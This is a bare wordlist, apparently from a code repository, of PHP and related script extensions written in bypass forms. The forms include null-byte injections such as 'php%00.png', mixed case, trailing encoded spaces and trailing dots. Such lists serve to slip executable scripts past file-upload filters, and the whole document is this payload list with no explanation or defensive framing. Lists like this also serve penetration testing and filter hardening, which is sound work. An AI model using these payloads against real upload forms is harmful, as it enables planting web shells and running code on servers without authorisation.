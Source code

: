 ```bash
php%00.png
php\x00.png
php%00.jpg
php\x00.jpg
phtml
php
php3
php4
php5
inc  
pHtml
pHp
pHp3
pHp4
pHp5
iNc
iNc%00
iNc%20%20%20
iNc%20%20%20...%20.%20..
iNc......
inc%00
inc%20%20%20
inc%20%20%20...%20.%20..
inc......
pHp%00
pHp%20%20%20
pHp%20%20%20...%20.%20..
pHp......
pHp3%00
pHp3%20%20%20
pHp3%20%20%20...%20.%20..
pHp3......
pHp4%00
pHp4%20%20%20
pHp4%20%20%20...%20.%20..
pHp4......
pHp5%00
pHp5%20%20%20
pHp5%20%20%20...%20.%20..
pHp5......
pHtml%00
pHtml%20%20%20
pHtml%20%20%20...%20.%20..
pHtml......
php%00
php%20%20%20
php%20%20%20...%20.%20..
php......
php3%00
php3%20%20%20
php3%20%20%20...%20.%20..
php3......
php4%00
php4%20%20%20
php4%20%20%20...%20.%20..
php4......
php5%00
php5%20%20%20
php5%20%20%20...%20.%20..
php5......
phtml%00
phtml%20%20%20
phtml%20%20%20...%20.%20..
```